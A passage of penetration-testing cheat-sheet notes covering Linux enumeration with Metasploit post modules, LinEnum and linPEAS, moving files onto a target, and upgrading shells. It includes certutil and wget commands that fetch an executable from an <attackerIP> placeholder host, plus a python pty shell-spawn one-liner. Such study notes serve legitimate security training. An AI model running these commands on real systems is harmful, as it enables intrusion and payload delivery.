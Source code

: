     > cat /etc/cron

## Automating Linux Local Enumeration

### Metasploit

    > use /post/linux/gather/enum_configs

    > use /post/linux/gather/enum_network

    > use /post/linux/gather/enum_system

    > use /post/linux/gather/checkvm

### LinEnum & linPEAS

- LinEnum is a simple bash script that automates common Linux local enumeration checks in addition to indentifying privilege escalation vulnerabilities.

- GitHub Repo: https://github.com/rebootuser/LinEnum

I like linPEAS more:

- linPEAS - Linux Privilege Escalation Awesome Script

- GitHub Repo: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

Also for Windows! :)

# Transfering Files

## Setting up the web server:

    > python -m SimpleHTTPServer <port>

    > python3 -m http.server <port>

## Windows

    >  certutil -urlcache -f http://<attackerIP>:<port>/file.exe file.exe

## Linux

    > wget http://<attackerIP>:<port>/file

# Upgrading Shells

    > cat /etc/shells

    > /bin/bash -i

If python is installed:

    > python -c 'import pty; pty.spawn("/bin/bash")'
